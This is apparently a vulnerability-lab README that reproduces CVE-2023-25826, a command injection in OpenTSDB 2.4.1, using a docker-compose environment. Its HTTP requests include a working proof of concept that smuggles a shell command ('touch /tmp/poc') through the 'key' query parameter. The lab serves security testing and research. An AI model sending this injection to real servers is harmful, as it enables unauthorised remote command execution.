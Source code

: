 # OpenTSDB arbitrary commands injection（CVE-2023-25826）

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.
In version 2.4.1 and earlier, there is a command injection vulnerability. This vulnerability is actually due to an incomplete fix for CVE-2020-35476, so the entire reproduction process is similar to the previous one.

References:

- https://www.synopsys.com/blogs/software-security/opentsdb/
- https://github.com/OpenTSDB/opentsdb/pull/2275

## Environment

Execute the following command to start a OpenTSDB server 2.4.1:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

Simialar as CVE-2020-35476, you need to know the name of a metric, visit `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`to find out the metric list.

Due to the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, you can create a metric named `sys.cpu.nice` through following request, if the metrics are empty:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Then the POC is different here, with the difference in the "key" parameter.

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](1.png)

`touch /tmp/poc` has been successfully executed:

![](2.png)
